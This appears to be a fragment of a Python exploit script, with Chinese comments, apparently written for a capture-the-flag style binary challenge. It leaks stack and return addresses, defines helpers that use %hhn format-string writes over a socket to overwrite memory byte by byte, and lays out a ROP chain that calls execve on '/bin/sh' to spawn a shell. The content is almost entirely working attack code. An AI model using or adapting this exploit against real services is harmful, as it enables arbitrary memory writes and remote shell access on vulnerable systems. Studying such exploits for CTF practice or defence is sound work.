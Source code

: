```python
print(buf)
rbp = int(buf.split(b'\n')[0].split()[0], base=16) + 0x490  # 当前 %rbp
print('rbp:', hex(rbp))
test_retval = int(buf.split(b'\n')[0].split()[-1], base=16)
print('test_retval:', hex(test_retval))
global_offset = test_retval - TEST_RETADDR_OFFSET
print('global_offset:', hex(global_offset))

def write_byte(offset, value):
    '''
    offset: 相对当前 %rbp 的偏移，必须非负
              +0x00: main 的 %rbp
              +0x08: 退回地址
              +0x10: main 之前的 %rbp
              +0x18: main 的退回地址
    value:  写入的值，范围 [0, 0xff]
    '''
    assert offset > 0
    assert 0 <= value < 0x100
    print(f'write_byte({hex(offset)}, {hex(value)})')

    '''
    构造输出长度为 value 但本身长度 8 字节对齐的字符串 fmt
       6: -0x4f0(%rbp)
      ...
      34: -0x410(%rbp)  fmt 字符串写入开始位置
       m:               向此地址写入 1 字节
    显然 35 <= m <= 67，故 f'%{m}$hhn' 必为 7 字节
    '''
    aligned = (value + 7 + 7) & -8
    m = (aligned >> 3) + 34
    ntrailing = aligned - (value + 7)
    fmt = rb'0' * value + f'%{m}$hhn'.encode() + rb'0' * ntrailing

    addr = (offset + rbp).to_bytes(8, 'little')
    assert b'\n' not in addr and b'\r' not in addr
    buf = b''
    s.send(fmt + addr + b'\n')
    while True:
        b = s.recv(8192)
        print(b)
        buf += b
        if(buf.find(b'Please input your instruction:\n')) >= 0: break

def write_qword(offset, value):
    for _ in range(8):
        write_byte(offset, value & 0xff)
        offset += 1
        value >>= 8

'''
0x00    MAIN_RBP
0x08    POP_RAX_RET
0x10    59  # execve
0x18    POP_RDI_RET
0x20    RBP+0x50  # pathname
0x28    POP_RSI_RET
0x30    0  # argv
0x38    POP_RDX_RET
0x40    0  # envp
0x48    SYSCALL
0x50    BIN_SH_VALUE
'''
```